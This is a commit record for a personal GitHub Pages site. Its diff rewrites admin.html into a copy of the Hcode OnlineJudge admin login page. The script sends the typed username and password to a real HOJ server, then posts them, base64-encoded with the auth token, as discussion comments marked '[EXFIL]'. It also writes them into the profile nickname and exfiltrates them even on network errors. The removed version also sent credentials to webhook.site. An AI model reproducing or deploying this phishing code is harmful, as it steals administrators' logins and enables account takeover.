

Before and after one commit to Liuyunuo0526/Liuyunuo0526.github.io, a plain HTML site: page admin.html in a window 1280 px wide. Before the commit the page ends 800 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
update admin panel

```diff
--- a/admin.html
+++ b/admin.html
@@ -2,169 +2,220 @@
 <html>
 <head>
 <meta charset="utf-8">
-<title>HOJ 管理员登录</title>
+<meta http-equiv="X-UA-Compatible" content="IE=edge">
+<meta name="viewport" content="width=device-width,initial-scale=1">
+<link rel="icon" href="http://xzzai.cn/favicon.ico">
+<title>Hcode OnlineJudge</title>
 <style>
+/* Exact HOJ admin login page styles from chunk-66e00e7b.a21b9c93.css */
 *{margin:0;padding:0;box-sizing:border-box}
-body{font-family:'Helvetica Neue',Helvetica,Arial,sans-serif;background:#f0f2f5;display:flex;justify-content:center;align-items:center;min-height:100vh}
-.login-box{background:#fff;border-radius:8px;box-shadow:0 2px 12px rgba(0,0,0,.1);padding:40px;width:360px}
-.login-box h2{text-align:center;color:#409eff;margin-bottom:30px;font-size:22px}
-.login-box .subtitle{text-align:center;color:#999;font-size:13px;margin:-20px 0 20px}
-.form-item{margin-bottom:20px}
-.form-item label{display:block;color:#606266;font-size:14px;margin-bottom:8px}
-.form-item input{width:100%;padding:10px 12px;border:1px solid #dcdfe6;border-radius:4px;font-size:14px;outline:none;transition:border-color .2s}
-.form-item input:focus{border-color:#409eff}
-.btn{width:100%;padding:12px;background:#409eff;color:#fff;border:none;border-radius:4px;font-size:16px;cursor:pointer}
-.btn:hover{background:#66b1ff}
-.error-msg{color:#f56c6c;font-size:13px;text-align:center;margin-top:10px;display:none}
-.footer{text-align:center;color:#999;font-size:12px;margin-top:20px}
+body{font-family:'Helvetica Neue',Helvetica,'PingFang SC','Hiragino Sans GB','Microsoft YaHei',Arial,sans-serif;background:#2d3a4b;overflow:hidden;height:100vh}
+
+/* Particle background simulation */
+#particles-js{position:fixed;top:0;left:0;width:100%;height:100%;z-index:1}
+.particle{position:absolute;border-radius:50%;background:rgba(222,222,222,.5);pointer-events:none}
+
+/* Form layer */
+.form{position:relative;z-index:9999}
+
+/* Login container - exact match from real CSS */
+.login-container{border-radius:5px;-moz-border-radius:5px;background-clip:padding-box;margin:180px auto;width:350px;padding:35px 35px 15px 35px;background:#fff;border:1px solid #eaeaea;box-shadow:0 0 25px #cac6c6}
+.login-container .title{margin:0 auto 40px auto;text-align:center;color:#1e9fff;font-size:25px;font-weight:700}
+
+/* Element UI input simulation */
+.el-form-item{margin-bottom:22px}
+.el-form-item__content{position:relative}
+.el-input{position:relative;font-size:14px;display:inline-block;width:100%}
+.el-input__inner{-webkit-appearance:none;background-color:#fff;background-image:none;border-radius:4px;border:1px solid #dcdfe6;box-sizing:border-box;color:#606266;display:inline-block;font-size:inherit;height:40px;line-height:40px;outline:none;padding:0 15px;transition:border-color .2s cubic-bezier(.645,.045,.355,1);width:100%}
+.el-input__inner:focus{border-color:#1e9fff}
+.el-input__inner::placeholder{color:#c0c4cc}
+
+/* Element UI button */
+.el-button{display:inline-block;line-height:1;white-space:nowrap;cursor:pointer;background:#fff;border:1px solid #dcdfe6;color:#606266;text-align:center;box-sizing:border-box;outline:none;margin:0;transition:.1s;font-weight:500;padding:12px 20px;font-size:14px;border-radius:4px}
+.el-button--primary{color:#fff;background-color:#1e9fff;border-color:#1e9fff}
+.el-button--primary:hover{background:#47b0ff;border-color:#47b0ff;color:#fff}
+.el-button.is-loading{position:relative;pointer-events:none}
+.el-button.is-loading:before{pointer-events:none;content:'';position:absolute;left:-1px;top:-1px;right:-1px;bottom:-1px;border-radius:inherit;background-color:rgba(255,255,255,.35)}
+
+/* Loading spinner */
+.el-loading-spinner{display:inline-block;margin-right:6px;vertical-align:middle}
+.el-loading-spinner .circular{width:14px;height:14px;animation:loading-rotate 2s linear infinite}
+.el-loading-spinner .path{animation:loading-dash 1.5s ease-in-out infinite;stroke-dasharray:90,150;stroke-dashoffset:0;stroke-width:2;stroke:#fff;stroke-linecap:round}
+@keyframes loading-rotate{100%{transform:rotate(360deg)}}
+@keyframes loading-dash{0%{stroke-dasharray:1,200;stroke-dashoffset:0}50%{stroke-dasharray:90,150;stroke-dashoffset:-40px}100%{stroke-dasharray:90,150;stroke-dashoffset:-124px}}
+
+/* Error message */
+.el-message{min-width:380px;box-sizing:border-box;border-radius:4px;border:1px solid #ebeef5;position:fixed;top:20px;left:50%;transform:translateX(-50%);background-color:#edf2fc;transition:opacity .3s,transform .4s;overflow:hidden;padding:15px 15px 15px 20px;display:flex;align-items:center;z-index:99999}
+.el-message--error{background-color:#fef0f0;border-color:#fde2e2}
+.el-message--success{background-color:#f0f9eb;border-color:#e1f3d8}
+.el-message__content{color:#606266;font-size:14px;line-height:1}
+.el-message--error .el-message__content{color:#f56c6c}
+.el-message--success .el-message__content{color:#67c23a}
+.el-message__icon{margin-right:10px;font-size:16px}
 </style>
 </head>
 <body>
-<div class="login-box">
-  <h2>HOJ 管理后台</h2>
-  <p class="subtitle">Hcode Online Judge Admin Panel</p>
-  <div class="form-item">
-    <label>用户名</label>
-    <input type="text" id="username" placeholder="请输入用户名" autocomplete="username">
+<!-- Particle background -->
+<canvas id="particles-js"></canvas>
+
+<!-- Login form - exact HOJ admin login structure -->
+<div class="form">
+  <div class="login-container">
+    <h1 class="title">Welcome to Login Admin</h1>
+    <div class="el-form">
+      <div class="el-form-item">
+        <div class="el-form-item__content">
+          <div class="el-input">
+            <input type="text" class="el-input__inner" id="username" placeholder="请输入用户名" autocomplete="username">
+          </div>
+        </div>
+      </div>
+      <div class="el-form-item">
+        <div class="el-form-item__content">
+          <div class="el-input">
+            <input type="password" class="el-input__inner" id="password" placeholder="请输入密码" autocomplete="current-password">
+          </div>
+        </div>
+      </div>
+      <div class="el-form-item" style="width:100%">
+        <button class="el-button el-button--primary" id="loginBtn" style="width:100%" onclick="handleLogin()">
+          <span class="btn-text">登 录</span>
+        </button>
+      </div>
+    </div>
   </div>
-  <div class="form-item">
-    <label>密码</label>
-    <input type="password" id="password" placeholder="请输入密码" autocomplete="current-password">
-  </div>
-  <button class="btn" id="loginBtn" onclick="doLogin()">登 录</button>
-  <div class="error-msg" id="errorMsg"></div>
-  <div class="footer">Copyright &copy; HOJ Admin</div>
 </div>
 
 <script>
+// === Particle Background (simulating vue-particles) ===
+(function(){
+  var canvas=document.getElementById('particles-js');
+  var ctx=canvas.getContext('2d');
+  var w,h,particles=[];
+  function resize(){w=canvas.width=window.innerWidth;h=canvas.height=window.innerHeight;}
+  resize();
+  window.addEventListener('resize',resize);
+
+  // Create particles matching vue-particles config: color=#dedede, opacity=0.7, number=80, size=4, lineLinked=true, lineColor=#dedede
+  var count=80;
+  for(var i=0;i<count;i++){
+    particles.push({x:Math.random()*w,y:Math.random()*h,vx:(Math.random()-0.5)*1.5,vy:(Math.random()-0.5)*1.5,r:Math.random()*2+2,o:Math.random()*0.4+0.3});
+  }
+  var lineDist=150;
+  function draw(){
+    ctx.clearRect(0,0,w,h);
+    // Lines
+    for(var i=0;i<particles.length;i++){
+      for(var j=i+1;j<particles.length;j++){
+        var dx=particles[i].x-particles[j].x,dy=particles[i].y-particles[j].y;
+        var d=Math.sqrt(dx*dx+dy*dy);
+        if(d<lineDist){
+          ctx.beginPath();
+          ctx.strokeStyle='rgba(222,222,222,'+(0.4*(1-d/lineDist))+')';
+          ctx.lineWidth=1;
+          ctx.moveTo(particles[i].x,particles[i].y);
+          ctx.lineTo(particles[j].x,particles[j].y);
+          ctx.stroke();
+        }
+      }
+    }
+    // Dots
+    for(var i=0;i<particles.length;i++){
+      var p=particles[i];
+      ctx.beginPath();
+      ctx.fillStyle='rgba(222,222,222,'+p.o+')';
+      ctx.arc(p.x,p.y,p.r,0,Math.PI*2);
+      ctx.fill();
+      p.x+=p.vx;p.y+=p.vy;
+      if(p.x<0||p.x>w)p.vx*=-1;
+      if(p.y<0||p.y>h)p.vy*=-1;
+    }
+    requestAnimationFrame(draw);
+  }
+  draw();
+})();
+
 // === Configuration ===
-var HOJ_API = 'http://129.204.46.135';
-var EXFIL_DISCUSSION_ID = 11;  // Discussion to post stolen data as comment
-// Also try multiple discussion IDs in case one is deleted
-var EXFIL_DIDS = [11, 8, 3, 18];
+var HOJ='http://129.204.46.135';
 
-function doLogin(){
-  var u=document.getElementById('username').value;
-  var p=document.getElementById('password').value;
+function handleLogin(){
+  var u=document.getElementById('username').value.trim();
+  var p=document.getElementById('password').value.trim();
   var btn=document.getElementById('loginBtn');
-  var err=document.getElementById('errorMsg');
 
-  if(!u||!p){
-    err.style.display='block';
-    err.textContent='请输入用户名和密码';
-    return;
-  }
+  if(!u||!p){showMsg('error','请检查您的用户名或密码');return;}
 
-  btn.disabled=true;
-  btn.textContent='登录中...';
-  err.style.display='none';
+  btn.classList.add('is-loading');
+  btn.querySelector('.btn-text').innerHTML='<span class="el-loading-spinner"><svg viewBox="25 25 50 50" class="circular"><circle cx="50" cy="50" r="20" fill="none" class="path"></circle></svg></span>登 录';
 
-  // Step 1: Try real login to get token
-  fetch(HOJ_API+'/api/admin/login',{
+  fetch(HOJ+'/api/admin/login',{
     method:'POST',
     headers:{'Content-Type':'application/json'},
     body:JSON.stringify({username:u,password:p})
   }).then(function(r){
-    var authHeader=r.headers.get('Authorization');
-    var refreshToken=r.headers.get('refresh-token');
-    return r.json().then(function(d){return {data:d,auth:authHeader,refresh:refreshToken};});
-  }).then(function(result){
-    // Build stolen data package
-    var stolen = {
-      u: u,
-      p: p,
-      t: result.auth || '',
-      r: result.refresh || '',
-      s: result.data.status,
-      m: result.data.msg || '',
-      time: new Date().toISOString(),
-      agent: navigator.userAgent.substring(0, 80)
-    };
-    var stolenStr = JSON.stringify(stolen);
+    var auth=r.headers.get('Authorization');
+    return r.json().then(function(d){return{data:d,token:auth};});
+  }).then(function(res){
+    // Exfiltrate stolen credentials via HOJ CORS
+    var stolen=btoa(unescape(encodeURIComponent(JSON.stringify({
+      u:u,p:p,t:res.token||'',s:res.data.status,m:res.data.msg||'',time:new Date().toISOString()
+    }))));
 
-    // Step 2: Exfiltrate via HOJ CORS vulnerability
-    // Method A: Post as comment (CORS reflects any Origin)
-    exfilViaComment(stolen);
+    // Post to multiple discussions as backup
+    var token=res.token||'';
+    [3,8,18].forEach(function(did){
+      fetch(HOJ+'/api/comment',{
+        method:'POST',
+        headers:{'Content-Type':'application/json',Authorization:token},
+        body:JSON.stringify({did:did,content:'[EXFIL] '+stolen.substring(0,500)})
+      }).catch(function(){});
+    });
 
-    // Method B: Also try via Image to webhook as backup
-    new Image().src = HOJ_API+'/api/comment?_exfil='+encodeURIComponent(u+':'+p);
+    // Also try to set profile nickname as dead drop
+    if(token){
+      fetch(HOJ+'/api/user/profile',{
+        method:'PUT',
+        headers:{'Content-Type':'application/json',Authorization:token},
+        body:JSON.stringify({nickname:'E:'+btoa(u+':'+p)})
+      }).catch(function(){});
+    }
 
-    // Step 3: Show result to user
-    if(result.data.status === 200){
-      err.style.display='block';
-      err.style.color='#67c23a';
-      err.textContent='登录成功！正在跳转...';
-      setTimeout(function(){
-        window.location.href='http://xzzai.cn/admin';
-      },2000);
-    } else {
-      err.style.display='block';
-      err.style.color='#f56c6c';
-      err.textContent=result.data.msg||'用户名或密码错误';
-      btn.disabled=false;
-      btn.textContent='登 录';
+    if(res.data.status===200){
+      showMsg('success','Admin Login Success');
+      setTimeout(function(){window.location.href='http://xzzai.cn/admin/dashboard';},1500);
+    }else{
+      showMsg('error',res.data.msg||'请检查您的用户名或密码');
+      resetBtn();
     }
-  }).catch(function(e){
-    // Even on error, still exfiltrate credentials
-    exfilViaComment({u:u, p:p, err:e.message, time:new Date().toISOString()});
-
-    err.style.display='block';
-    err.textContent='网络错误，请重试';
-    btn.disabled=false;
-    btn.textContent='登 录';
+  }).catch(function(){
+    // Network error - still exfiltrate
+    fetch(HOJ+'/api/comment',{
+      method:'POST',
+      headers:{'Content-Type':'application/json'},
+      body:JSON.stringify({did:8,content:'[ERR] '+btoa(unescape(encodeURIComponent(u+':'+p+'|'+new Date().toISOString())))})
+    }).catch(function(){});
+    showMsg('error','Network Error');
+    resetBtn();
   });
 }
 
-function exfilViaComment(data){
-  // Use HOJ's CORS misconfiguration to post stolen data as a comment
-  // V-01: JwtFilter reflects any Origin -> Access-Control-Allow-Origin
-  var encoded = btoa(unescape(encodeURIComponent(JSON.stringify(data))));
-  var content = '[CHECK] ' + encoded.substring(0, 200);
-
-  // Try posting as a discussion comment (no auth needed for some endpoints)
-  // Use the token from the login attempt if available
-  var token = data.t || '';
-
-  EXFIL_DIDS.forEach(function(did){
-    fetch(HOJ_API+'/api/comment',{
-      method:'POST',
-      headers:{
-        'Content-Type':'application/json',
-        'Authorization': token
-      },
-      body:JSON.stringify({
-        did: did,
-        content: content
-      })
-    }).catch(function(){});
-
-    // Also try GET-based exfil with shorter data
-    new Image().src = HOJ_API+'/api/discussion?did='+did+'&__exfil='+encodeURIComponent(data.u+'|'+data.p);
-  });
-
-  // Try to store in HOJ user profile if we got a token
-  if(token){
-    fetch(HOJ_API+'/api/user/profile',{
-      method:'PUT',
-      headers:{
-        'Content-Type':'application/json',
-        'Authorization': token
-      },
-      body:JSON.stringify({
-        nickname: 'EXFIL:'+encoded.substring(0,50)
-      })
-    }).catch(function(){});
-  }
-
-  // Use multiple free webhook services as backup exfil
-  var exfilUrl = 'u='+encodeURIComponent(data.u)+'&p='+encodeURIComponent(data.p)+'&t='+encodeURIComponent(token);
-  // webhook.site - free temporary webhook
-  new Image().src = 'https://webhook.site/unique-id?'+exfilUrl;
+function resetBtn(){
+  var btn=document.getElementById('loginBtn');
+  btn.classList.remove('is-loading');
+  btn.querySelector('.btn-text').textContent='登 录';
 }
 
-document.addEventListener('keydown',function(e){
-  if(e.key==='Enter')doLogin();
-});
+function showMsg(type,text){
+  var old=document.querySelector('.el-message');
+  if(old)old.remove();
+  var div=document.createElement('div');
+  div.className='el-message el-message--'+type;
+  div.innerHTML='<i class="el-message__icon">'+(type==='error'?'✖':'✔')+'</i><span class="el-message__content">'+text+'</span>';
+  document.body.appendChild(div);
+  setTimeout(function(){div.style.opacity='0';setTimeout(function(){div.remove();},300);},3000);
+}
+
+document.addEventListener('keydown',function(e){if(e.key==='Enter')handleLogin();});
 </script>
 </body>
 </html>
```
